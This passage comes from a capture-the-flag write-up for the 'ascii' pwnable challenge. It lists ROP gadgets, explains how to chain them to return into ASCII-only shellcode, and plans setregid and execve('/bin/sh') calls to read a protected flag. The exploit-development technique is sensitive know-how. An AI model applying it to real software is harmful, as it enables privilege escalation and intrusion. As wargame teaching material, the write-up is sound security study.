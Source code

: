 We can narrow this down manually, first removing any where the last two bytes aren't in ascii range (`0x20-0x7f` inclusive):

```
0x00000a46 : arpl word ptr [ebx + 0x5e5b14c4], ax ; pop edi ; pop ebp ; ret
0x00000a45 : jne 0xab3 ; add esp, 0x14 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x00000691 : mov eax, ecx ; pop ebx ; pop ebp ; ret
0x00000b2d : nop ; nop ; nop ; pop eax ; mov eax, 0x77 ; int 0x80
0x00000b2e : nop ; nop ; pop eax ; mov eax, 0x77 ; int 0x80
0x00000b2f : nop ; pop eax ; mov eax, 0x77 ; int 0x80
0x00000b30 : pop eax ; mov eax, 0x77 ; int 0x80
0x00000b59 : pop ebp ; pop edx ; pop ecx ; ret
0x00000b5b : pop ecx ; ret
0x00000b5a : pop edx ; pop ecx ; ret
0x00000683 : sal dword ptr [edx + 0xb], cl ; jbe 0x696 ; mov edx, ebx ; pop ebx ; pop ebp ; ret
```

In particular, these two instructions look attractive:
```
0x00000b59 : pop ebp ; pop edx ; pop ecx ; ret
0x00000b5a : pop edx ; pop ecx ; ret
```

We can do the first instruction at `0xb59` twice in order to pop 8 items off the stack, then finally use the second instruction at `0xb5a` to pop 3 items off the stack, putting `0x80000000` at the top of the stack (and thus this will be what we end up `ret`ing to).

# Ascii shellcode?

## High level goal

[This seems like a great intro to ascii shellcoding](https://nets.ec/Ascii_shellcode), and it was what I used to quickly get up to speed.

I spent a lot of time on an `open -> sendfile` type of shellcode but I couldn't get it to work when I was using the actual flag file, for unknown reasons.
In particular it seemed really hard in general to get output from the process before death, in which I'm (for reasons I don't understand, yet) not able to read the output.
So, there's probably an `open -> sendfile` type solution that exists if you're careful about output handling somehow, or possibly by crafting an `exit` syscall after the `sendfile`, but I wasn't able to find it.

Our general gameplan is going to be:
+ Elevate the privileges of any spawned processes to be able to read the flag
+ Pop a shell

Looking at the flag and executable perms:
```
ascii@pwnable:~$ ls -l
total 740
-r-xr-sr-x 1 root ascii_pwn 749493 Aug  6  2014 ascii
-r--r----- 1 root ascii_pwn     54 Aug  6  2014 flag
-r--r----- 1 root ascii_pwn    214 Oct 31  2016 intended_solution.txt
```
We have to `setregid` our process in order to have our spawned shell to inherit `rgid` and `egid` from the `current_task_struct`, followed by an `execve("/bin/sh", NULL, NULL)` call.
